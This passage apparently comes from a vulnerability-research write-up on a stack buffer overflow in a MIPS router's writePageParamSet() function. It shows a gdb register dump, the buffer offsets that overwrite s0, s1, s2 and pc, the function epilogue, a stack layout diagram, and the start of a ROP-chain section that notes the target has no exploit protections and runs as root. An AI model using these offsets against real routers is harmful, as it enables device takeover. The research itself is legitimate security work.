 ```text
#0  0x61616561 in ?? ()
(gdb) i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 00000001 00000000 00000302 7d7fe878 00560000 00000002 00000000 
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   00000000 00000000 00000000 86ffa000 00000000 7e1ffc14 61636661 00000000 
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  61616261 61616361 61616461 00000005 00000000 00000007 00000000 0064c804 
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  00000000 2aad2980 00000000 00000000 00594d80 7d7fed50 7d7fedf8 61616561 
            sr       lo       hi      bad    cause       pc
      0000a413 2deb3800 0000e72b 61616560 10800008 61616561 
           fsr      fir
      00000000 00000000
```

that corresponds to the following offsets for the registers we control

 - ``s0`` -> 3
 - ``s1`` -> 7
 - ``s2`` -> 11
 - ``pc`` -> 15
 - ``t6`` -> too far away

and indeed analyzing the assembly of the epilogue for ``writePageParamSet()``
all corresponds

```text
lw                 ra,local_4(sp)
lw                 s2,local_8(sp)
lw                 s1,local_c(sp)
lw                 s0,local_10(sp)
jr                 ra
_addiu             sp,sp,0x228
```

In order to have a mental model and build an exploit, I start making
a diagram of the memory

```text
 ---- increasing addresses ---->

[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][   ?????   ]
                                                |
  sp points here after the oveflow  ------------'
```

## Ropchain

This is a router running on a kernel 2.6.31 without any
protection: the stack is **executable**, the address layout is
**not randomized** and obviously is **running as root** so
this is plain exercise from the 90s.
